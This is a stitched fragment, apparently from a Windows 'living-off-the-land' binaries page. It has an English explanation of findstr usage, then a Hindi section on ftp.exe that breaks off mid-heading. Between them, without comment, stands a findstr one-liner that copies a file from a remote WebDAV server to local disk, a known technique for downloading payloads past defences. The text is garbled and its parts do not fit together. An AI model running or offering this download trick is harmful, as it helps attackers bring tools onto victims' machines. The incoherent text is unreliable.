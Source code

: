 To use `findstr.exe`, you can open a command prompt and type the following command:

```
findstr "search_string" file_name
```

Replace "search_string" with the string or pattern you want to search for, and "file_name" with the name of the file or files you want to search within. You can also use wildcards (*) to search for multiple files or patterns.

For example, to search for the string "password" in a file named "example.txt", you would use the following command:

```
findstr "password" example.txt
```

The command will display all lines in the file that contain the specified string. You can also use various options with `findstr.exe` to customize the search, such as case sensitivity, searching subdirectories, or excluding certain files or directories from the search. To learn more about these options, you can use the `/?` flag with the command:

```
findstr /?
```

This will display the help menu with all available options and their descriptions.
```
findstr /V /L W3AllLov3DonaldTrump \\webdavserver\folder\file.exe > c:\ADS\file.exe
```
# Ftp.exe

यह एक Windows कमांड लाइन उपकरण है जो FTP (File Transfer Protocol) संचार का समर्थन करता है। इसका उपयोग रिमोट सर्वर से फ़ाइलों को अपलोड और डाउनलोड करने के लिए किया जाता है। यह एक कमांड लाइन आधारित उपकरण होने के कारण, इसे स्क्रिप्टिंग और ऑटोमेशन के लिए भी उपयोग किया जा सकता है।

## उपयोग

इसका उपयोग करने के लिए, आपको `ftp` कमांड को Windows कमांड प्रोंप्ट में टाइप करना होगा। इसके बाद, आपको FTP सर्वर के साथ कनेक्ट करने के लिए `open` कमांड का उपयोग करना होगा। एक बार जब आप सफलतापूर्वक कनेक्ट हो जाते हैं, तो आप फ़ाइलों को अपलोड और डाउनलोड करने के लिए विभिन्न कमांड का उपयोग कर सकते हैं।

## उदाहरण

यहां कुछ उदाहरण हैं जो आपको `ftp.exe` का उपयोग करने के तरीके दिखा सकते हैं:

### FTP सर्वर के साथ कनेक्ट करना

```
ftp
open <एफटीपी_सर्वर>
```

### फ़ाइलों को अपलोड करना
